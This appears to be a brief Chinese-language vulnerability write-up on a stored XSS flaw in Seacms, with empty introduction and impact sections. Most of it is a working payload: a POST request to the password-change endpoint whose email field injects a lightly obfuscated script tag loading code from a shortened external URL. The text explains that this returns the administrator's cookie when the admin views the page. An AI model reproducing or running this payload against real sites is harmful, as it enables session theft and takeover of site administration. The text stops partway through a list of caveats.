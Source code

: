 # Seacms 储存型xss

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程


```bash
POST /member.php?action=chgpwdsubmit

oldpwd=test&newpwd=test&newpwd2=test&email=test%40test.com<scbase64ript src=https://url.cn/585l00F></scrbase64ipt>&nickname=&gaimi=%E7%A1%AE%E8%AE%A4%E4%BF%AE%E6%94%B9
```

src的值为`http://127.0.0.1/test.js`的短链接

当后台浏览到后台界面时，会触发漏洞，反弹回来Cookie，但需要注意两点，第一，只有系统管理员才能看到用户界面，普通管理员是没有这个权限的。